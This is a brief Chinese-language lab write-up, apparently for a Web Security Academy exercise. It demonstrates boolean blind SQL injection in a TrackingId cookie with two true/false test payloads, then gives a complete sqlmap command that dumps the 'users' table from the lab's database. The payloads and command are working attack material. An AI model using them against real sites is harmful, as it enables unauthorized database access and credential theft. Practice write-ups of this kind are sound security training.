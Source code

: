cookie中的TrackingId存在布尔盲注

```javascript
TrackingId=qjuCxOqaqliFBZIo'+and+1=1--
```

响应中含有welocme back



```javascript
TrackingId=qjuCxOqaqliFBZIo'+and+1=2--
```

响应中不含有welocme back



可以使用sqlmap进行布尔盲注：

```javascript
sqlmap -u"https://acdc1ff31e4b36ba8046046200ae00da.web-security-academy.net" 
--cookie="TrackingId=qjuCxOqaqliFBZIo; session=P4r9aqFAWSWvfrR3BXV2vQ0WtRFbOU7i" 
--level 2 --skip="session" --string="Welcome back" 
--dump -T"users" -D"public" 
--technique B --force-ssl
```



![](images/6059ADE9088C491CADDE542B1FF537C9clipboard.png)

